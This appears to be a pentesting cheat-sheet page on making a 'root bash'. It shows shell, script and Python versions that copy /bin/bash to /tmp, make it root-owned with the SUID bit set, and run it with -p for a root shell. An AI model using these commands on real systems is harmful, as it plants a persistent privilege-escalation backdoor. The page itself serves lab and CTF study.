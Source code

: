 # Root Bash

<div class="row row-cols-lg-2"><div>

A root bash is a (bash) shell that was executed as root. For instance, using an attack vector such as a SUID script, we may run:

```ps
$ cp /bin/bash /tmp/rootbash
$ chown root /tmp/rootbash
$ chmod +s /tmp/rootbash
```

If you are successful, you can use `-p` (and `-i`) to run it:

```ps
$ /tmp/rootbash -p
root@xxx$
```

📚 Replace `root` with another user according to the attack vector.
</div><div>

**Root Bash** (script)

```shell!
$ cat /tmp/root.sh
cp /bin/bash /tmp/rootbash
chown root /tmp/rootbash
chmod +s /tmp/rootbash
exit 0
$ chmod +x /tmp/root.sh
```

**Root Bash** (Python)

```shell!
import shutil
import os

source_path = '/bin/bash'
destination_path = '/tmp/rootbash'
shutil.copy2(source_path, destination_path)
os.chown(destination_path, 0, 0)
os.chmod(destination_path, 0o4755)
```
</div></div>
